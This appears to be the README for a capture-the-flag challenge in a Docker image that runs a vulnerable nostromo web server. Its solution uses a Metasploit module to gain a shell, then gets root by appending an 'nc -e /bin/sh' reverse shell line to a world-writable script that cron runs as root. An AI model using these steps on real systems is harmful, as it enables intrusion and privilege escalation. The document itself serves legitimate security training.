 # My first blog

```text
Here is a link to my new blog!  I read about a bunch of exploits in common server side blog tools so I just decided to make my website static.  Hopefully that should keep it secure. 
```

## Setup

1. `docker build -t my-first-blog .`
2. `docker run --rm -it  my-first-blog`

## Brief Dev Description

The challenge has two stages.  Gaining a shell by using an exploit in nostromo and then gaining root by taking advantage of the world writeable /usr/bin/healthcheck.  healthcheck is run as root by a cron job every minute so if you add code the make a reverse shell at the end then you can get a root shell and thus the flag.  

## Solution

1. metasploit has a module for this vulnerability (exploit/multi/http/nostromo_code_exec) so thats the simplest method.  Set your rhosts/lhost/payload appropriately and then exploit.  
3. setup a reverse shell listener on your computer - `nc -lvp 4445`
3. You'll need to write a reverse shell command to the end of /usr/bin/healthcheck.  It can be done with `echo "\nnc -e /bin/sh 127.0.0.1 4445" >> /usr/bin/healthcheck`
4. wait about a minute
5. cat flag.txt